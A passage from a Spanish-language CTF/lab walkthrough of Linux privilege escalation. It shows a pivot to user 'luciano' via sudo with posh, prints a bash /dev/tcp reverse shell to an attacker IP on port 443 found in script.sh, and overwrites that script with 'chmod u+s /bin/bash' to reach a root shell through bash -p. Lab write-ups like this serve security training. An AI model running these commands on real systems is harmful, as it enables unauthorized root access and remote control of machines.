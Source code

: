 
Una vez dentro listamos los permisos &#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permiso como luciano con `POSH` un herramienta de linea de comandos parecida a bash entonces corremos&#x20;

### Usuario Luciano

```bash
sudo -u luciano posh
```

Una ve esto ya somos usuario luciano&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos al buscar SUID vemo que el archivo script.sh tiene permisos Root por lo que vamos a la ubicacion y miramos que tiene

```bash
!/bin/bash\n\nbash 
-c '"'"'exec 5<>/dev/tcp/(nuestra ip)/443; cat <&5 | bash >&5 2>&5'"'"''
```

Vemos que es una revershell pero al tratar de modificarla no podemos ni con nano ni con vim por lo que procedo a modificar su contenido con echo

```bash
echo "chmod u+s /bin/bash" > script.sh

```

Le otorgamos ala bash permisos SUID&#x20;

`sudo /bin/bash  /home/luciano/script.sh`

Ejecutamos bash -p para tener una shell como root y...

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt="" width="119"><figcaption></figcaption></figure>

[^1]: 
